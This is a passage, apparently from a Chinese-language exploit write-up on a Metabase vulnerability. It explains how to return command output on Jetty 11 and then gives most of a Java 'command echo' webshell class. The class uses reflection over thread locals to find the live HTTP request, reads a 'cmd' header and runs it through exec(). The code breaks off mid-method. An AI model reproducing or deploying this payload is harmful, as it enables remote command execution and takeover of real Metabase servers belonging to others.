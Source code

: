 ### 漏洞回显

在漏洞回显时，我们就可以借助 `DefineClass` 来执行完成对漏洞的回显利用，但是目前最新版本的 Metabase 使用 Jetty11，所以需要针对该版本做回显适配，核心代码如下：

```java
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;

/**
 * Jetty CMD 回显马
 * @author R4v3zn woo0nise@gmail.com
 * @version 1.0.1
 */
public class JE2 {

    public JE2(){
        try{
            invoke();
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public void invoke()throws Exception{
        ThreadGroup group = Thread.currentThread().getThreadGroup();
        java.lang.reflect.Field f = group.getClass().getDeclaredField("threads");
        f.setAccessible(true);
        Thread[] threads = (Thread[]) f.get(group);
        thread : for (Thread thread: threads) {
            try{
                Field threadLocalsField = thread.getClass().getDeclaredField("threadLocals");
                threadLocalsField.setAccessible(true);
                Object threadLocals = threadLocalsField.get(thread);
                if (threadLocals == null){
                    continue;
                }
                Field tableField = threadLocals.getClass().getDeclaredField("table");
                tableField.setAccessible(true);
                Object tableValue = tableField.get(threadLocals);
                if (tableValue == null){
                    continue;
                }
                Object[] tables =  (Object[])tableValue;
                for (Object table:tables) {
                    if (table == null){
                        continue;
                    }
                    Field valueField = table.getClass().getDeclaredField("value");
                    valueField.setAccessible(true);
                    Object value = valueField.get(table);
                    if (value == null){
                        continue;
                    }
                    System.out.println(value.getClass().getName());
                    if(value.getClass().getName().endsWith("AsyncHttpConnection")){
                        Method method = value.getClass().getMethod("getRequest", null);
                        value = method.invoke(value, null);
                        method = value.getClass().getMethod("getHeader", new Class[]{String.class});
                        String cmd = (String)method.invoke(value, new Object[]{"cmd"});
                        String result = "\n"+exec(cmd);
```